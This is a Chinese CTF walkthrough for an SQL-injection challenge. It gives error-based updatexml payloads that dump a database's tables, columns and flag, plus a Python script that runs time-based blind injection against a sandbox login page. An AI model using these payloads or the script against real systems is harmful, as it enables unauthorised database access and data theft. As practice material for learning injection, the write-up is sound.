 得到flag：**n1book{union_select_is_so_cool}**

## SQL注入-2

### 考点：

报错注入

### 解题：

#### 基于报错：

```
name=1'and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+&pass=xxxx
name=1'and updatexml(1,concat(0x7e,(seLEct group_concat(table_name) from information_schema.tables where table_schema='note'),0x7e),1)--+&pass=xxxx
name=1'and updatexml(1,concat(0x7e,(seLEct group_concat(column_name) from information_schema.columns where table_name='fl4g'),0x7e),1)--+&pass=xxxx
name=1'and updatexml(1,concat(0x7e,(seLEct group_concat(flag) from note.fl4g),0x7e),1)--+&pass=xxxx 
```

得：n1book{login_sqli_is_nice}

#### 基于时间：

大体骨架：

```
name=1'+or+if(substr(database(),1,1)='n',sleep(1),1)#&pass=xxx 
```

脚本：

```
import requests
import time

l = 'qwertyuiopasdfghjklzxcvbnm-=+_,.1234567890{}'
url = 'http://challenge-92892f03ae72aafc.sandbox.ctfhub.com:10080/login.php'

sql = "1' or if(substr((seLEct flag from fl4g),%d,1)='%s',sleep(2),1)#"
flag = ''

length=4
for num in range(1,length+1):
    for i in l:
        data = {
            'name' : sql %(num,i),
            'pass' : 'asdasd'
        }

        t = int(time.time())
        r = requests.post(url = url , data=data)
        if int(time.time()) - t > 2 :
            flag += i
            print("flag:" , flag)
            break
print(flag) 
```
